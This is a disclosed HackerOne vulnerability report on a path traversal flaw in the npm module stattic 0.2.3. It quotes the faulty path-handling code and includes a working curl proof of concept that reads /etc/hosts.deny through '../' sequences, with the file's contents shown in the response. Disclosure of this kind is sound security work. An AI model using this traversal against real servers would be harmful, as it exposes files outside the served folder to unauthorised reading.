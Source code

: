 # [stattic] Inproper path validation leads to Path Traversal and allows to read arbitrary files with any extension(s)

## Report Details
- **Report ID**: 319003
- **URL**: https://hackerone.com/reports/319003
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-23T12:44:58.526Z
- **Disclosed**: 2018-03-06T22:04:34.271Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Path Traversal in ```stattic``` module.
It allows to read content of some arbitrary files from the server where ```stattic``` is installed and run.

## Module

**module name:** stattic
**version:** 0.2.3
**npm page:** https://www.npmjs.com/package/stattic

### Module Description

Ridiculous simple script for serving static files using http module.

### Module Stats

Stats
7 downloads in the last day
32 downloads in the last week
77 downloads in the last month

~900 estimated downloads per year

## Vulnerability Description

Path Traversal vulnerability in ```stattic module``` allows to go up in directory tree and read content of some files outside of the root path set up in the module config.

However, this issue allows to read only files with extension, because if no extension is provided, ```stattic``` by default uses setting from ```options.index``` variable.

## Steps To Reproduce:

Install ```stattic``` module:

```
$ npm install stattic
```

Create sample application:

```javascript
// app.js
//Import libs
var stattic = require('stattic');
 
//Set the folder with the static files
stattic.set('folder', './');
 
//Set the port
stattic.set('port', 8080);
 
//Run the server
stattic.listen();
```

Run application:

```
$ node app.js
```

Here's the part of ```stattic``` code responsible for handling paths:

```javascript
// node_modules/stattic/index.js, line 70:

    //Parse the request url and get only the pathname
    var pathname = url.parse(req.url).pathname;

    //Resolve to the local folder
    var local_path = path.join(options.folder, pathname);

    //Check the extension
    if(path.extname(local_path) === '')
    {
      //Add the index file to the local path
      local_path = path.join(local_path, './' + path.basename(options.index));
    }

```

If file provided has no extension, ```/``` and ```options.index``` are added (by default, it will become ```/index.html```). This causes that eg. ```/etc/passwd``` path become ```/etc/passwd/index.html```, but ```/etc/hosts.deny``` is valid filename and can be read:

```
$ curl -v --path-as-is http://localhost:8080/../../../../../etc/hosts.deny
*   Trying ::1...
* Connected to localhost (::1) port 8080 (#0)
> GET /../../../../../etc/hosts.deny HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: null
< Date: Fri, 23 Feb 2018 12:36:35 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
# /etc/hosts.deny: list of hosts that are _not_ allowed to access the system.
#                  See the manual pages hosts_access(5) and hosts_options(5).
#
# Example:    ALL: some.host.name, .some.domain
#             ALL EXCEPT in.fingerd: other.host.name, .other.domain
#
# If you're going to protect the portmapper use the name "rpcbind" for the
# daemon name. See rpcbind(8) and rpc.mountd(8) for further information.
#
# The PARANOID wildcard matches any host whose name does not match its
# address.
#
# You may wish to enable this to ensure any programs that don't
# validate looked up hostnames still leave understandable logs. In past
# versions of Debian this has been the default.
# ALL: PARANOID

* Connection #0 to host localhost left intact
```

## Patch

Probably some protection against typical Path Traversal exploitation methods should be introduced here.

## Supporting Material/References:

- Operating system: Ubuntu 16.04
- Node.js 8.9.4
- npm v. 5.6.0
- curl 7.47.0

## Wrap up

- I contacted the maintainer to let him know: [N] 
- I opened an issue in the related repository: [N] 


Regards,

Rafal 'bl4de' Janicki

## Impact

Path Traversal vulnerability in ```stattic module``` allows to go up in directory tree and read content of some files outside of the root path set up in the module config.

## Attachments
No attachments
